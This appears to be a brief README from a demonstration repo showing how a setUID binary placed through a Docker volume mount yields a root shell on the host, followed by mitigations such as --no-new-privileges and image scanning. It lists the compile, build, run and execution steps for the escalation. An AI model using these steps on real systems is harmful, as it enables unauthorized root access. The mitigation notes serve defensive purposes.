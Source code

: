 
## privilege escalation 

[![asciicast](https://asciinema.org/a/351428.svg)](https://asciinema.org/a/351428)

## How to escalate privilege using setUID : 

Compile c program : 
```
gcc -o rootshell rootshell.c
```

Build the docker images : 
```
docker build -t setuid_hack .
```

Run container : 

```
docker run -v /tmp/persist:/persist setuid_hack:latest /bin/sh root.sh
```

Privilege escalation : 

1. Run `id` command . 
2. execute /tmp/persist/rootshell . 
3. Re-run id command . (You are now root)


## How to resolve this issue : 

1. execute with --no-new-privileges. 
2. Some Image Scanner can detect the use of setUID . 
3. 